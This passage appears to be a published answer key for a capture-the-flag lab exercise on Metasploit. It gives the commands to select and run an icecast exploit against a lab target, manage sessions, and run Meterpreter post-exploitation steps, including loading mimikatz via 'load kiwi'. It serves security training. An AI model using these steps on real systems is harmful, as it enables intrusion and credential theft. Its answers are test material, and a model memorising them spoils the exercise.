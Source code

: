 - Q10:```Let's go ahead and return to our previous exploit, run the command use icecast to select it again.```

	A:```No answer needed```

- Q11:```One last step before we can run our exploit. Run the command set RHOSTS MACHINE_IP to tell Metasploit which target to attack.```

	A:```No answer needed```

- Q12:```Once you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.```

	A:```No answer needed```

- Q13:```Once we've started this, we can check all of the jobs running on the system by running the command jobs```

	A:```No answer needed```

- Q14:```After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER```

	A:```No answer needed```

<b>Task 6:We're in, now what?</b>

- Q1:```First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?```

	A:```spoolsv.exe```

- Q2:```Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!```

	A:```migrate```

- Q3:```Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?```

	A:```getuid```

- Q4:```How about finding more information out about the system itself?```

	A:```sysinfo```

- Q5:```This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?```

	A:```load kiwi```

- Q5:```Let's go ahead and figure out the privileges of our current user, what command do we run?```

	A:```getprivs```

- Q6:```What command do we run to transfer files to our victim computer?```
